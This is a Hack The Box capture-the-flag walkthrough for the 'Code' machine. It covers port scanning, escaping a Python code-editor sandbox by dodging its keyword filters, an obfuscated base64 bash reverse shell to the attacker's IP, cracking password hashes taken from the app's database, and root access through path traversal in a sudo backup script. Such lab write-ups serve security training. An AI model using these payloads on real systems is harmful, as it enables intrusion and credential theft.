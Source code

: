 ```yaml
---
name: Code
difficulty: easy
os: linux
platform: htb
date: 2025/07/01

img: https://labs.hackthebox.com/storage/avatars/55cc3528cd7ad96f67c4f0c715efe286.png
---
```


## Enumeration


We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.64 -o allPorts
```

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
```

We can see that port 22 is open, which is the SSH service.

Now we will scan for all tcp, open and filtered, ports

```bash
nmap -p- -sS --min-rate 5000 -n -Pn -vvv 10.10.11.64 -o allPortsFiltered
```

```
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
5000/tcp open  upnp    syn-ack ttl 63
```

We can see that port 5000 is also open.

Now we will scan the open ports with service version detection and script scanning using `-sC` and `-sV` options

```bash
nmap -p 22,5000 -sCV 10.10.11.62 -o targeted
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b5b97cc4503295bcc26517df51a27abd (RSA)
|   256 94b525549b68afbe40e11da86b850d01 (ECDSA)
|_  256 128cdc97ad8600b488e229cf69b56596 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-title: Python Code Editor
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## User Exploitation

When accessing `http://10.10.11.62` it shows up a python code editor. We can create a new file and write some Python code in it. The web application allows us to execute the code we write.

We write the following Python code to do ls for `/` and `/home`:

```python
oas = sys.modules['o'+'s']
print(oas.listdir('.'))

print(oas.listdir('/'))
print(oas.listdir('/home'))
#print(oas.listdir('/ro'+'ot'))
```

```
['app.py', 'static', 'templates', '__pycache__', 'instance']
['bin', 'lib64', 'proc', 'run', 'sbin', 'usr', 'lib32', 'home', 'var', 'srv', 'libx32', 'boot', 'tmp', 'lost+found', 'lib', 'root', 'sys', 'media', 'mnt', 'etc', 'dev', 'opt']
['martin', 'app-production']
```

Note that the system blocks some strings like `os`, `import` or `root` in the code editor, so we have to use other ways to access the modules and directories.
As we can see, we can find the home directory of the user `martin` and the `app-production` directory. We do not have access to `/root`

We dont have access to `/home/martin`

We can do ls on the `app-production` directory:

```python
oas = sys.modules['o'+'s']
print(oas.listdir('/home/app-production'))
```

```
['user.txt', '.local', '.sqlite_history', '.profile', '.python_history', '.cache', '.bash_logout', '.bash_history', '.bashrc', 'app']
```

We can see that we have a file called `user.txt` in the `app-production` directory. We can read it using the following code:

```python
wd = sys.modules['subpr'+'ocess']
output = wd.check_output(['cat', '/home/app-production/user.txt'])
print(output.decode())
```

```
user flag value
```

We can access the machine using a reverse shell. We can use the following Python code

```python
a = sys.modules['subp' + 'rocess']
output = a.check_output('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi42O' +
                         'S80NDQ0IDA+JjE= | base64 -d | bash', shell=True)
print(output.decode())
```

This code will execute a reverse shell command that connects back to our machine. Make sure to set
up a listener on your machine to catch the reverse shell

```bash
nc -lvnp 4444
```

Once we have a reverse shell, we can get a persistent shell by using the following commands on the reverse shell

```bash
script /dev/null -c /bin/bash
CONTROL-Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```

We can access the web page source code at app.py and we find the database access:

```python
app.config['SECRET_KEY'] = "7j4D5htxLHUiffsjLXB1z9GaZ5"
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///database.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False
```

We also see that there is a table called `USER` in the database. We can use the credentials to access the database and retrieve the user information.
We can use the `sqlite3` command-line tool to access the SQLite database.

```bash
sqlite3 instance/database.db "SELECT * FROM USER;"
```

```
1|development|759b74ce43947f5f4c91aeddc3e5bad3
2|martin|3de6f30c4a09c27fc71932bfc68474be
3|test|c06db68e819be6ec3d26c6038d8e8d1f
```

We can see that there are three users in the database: `development`, `martin`, and `test`. It looks like the passwords are hashed.
We can use `https://crackstation.net/` to crack the hashes. After cracking the hashes, we find the following credentials:

```
development:development
martin:nafeelswordsmaster
test:test12345
```

This allows us to access the machine as the user `martin` with the password `nafeelswordsmaster` through SSH.

```bash
ssh martin@10.10.11.62
```

## Root Exploitation

Once we have access to the user `martin`, we can check what sudo privileges the user has.

```bash
sudo -l
```

```
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```

As we can see, the user `martin` has the ability to run the script `/usr/bin/backy.sh` as root without a password. We can check the contents of the script to see if it is vulnerable or misconfigured.

This script is a script that backups a directory. We can pass as parameter this json configuration file

```
{
  "destination": "/home/martin/test/",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/var/....//root"
  ],
  "exclude": [
    "test"
  ]
}
```

Note that the `directories_to_archive` field contains a path to `/var/....//root`, because the script removes `../` from the path, it will end up being `/var/../root`, which is the root directory `/root`.

And then run the script as root:

```bash
sudo /usr/bin/backy.sh /home/martin/task.json
```

It will create a backup of the `/root` directory the `/home/martin/test/`. We can extract the backup and find the root flag:

```bash
tar -xvjf code_var_.._root_2025_July.tar.bz2
cat root/root.txt
```

```
root flag value
```

## Conclusion

This walkthrough demonstrates how to exploit a vulnerable web application to gain access to the user and root flags. We used Python code execution to read files and execute commands, and we exploited a misconfigured backup script to gain root access. This highlights the importance of secure coding practices and proper configuration management in web applications.
This walkthrough is for educational purposes only. Always ensure you have permission to test and exploit systems.
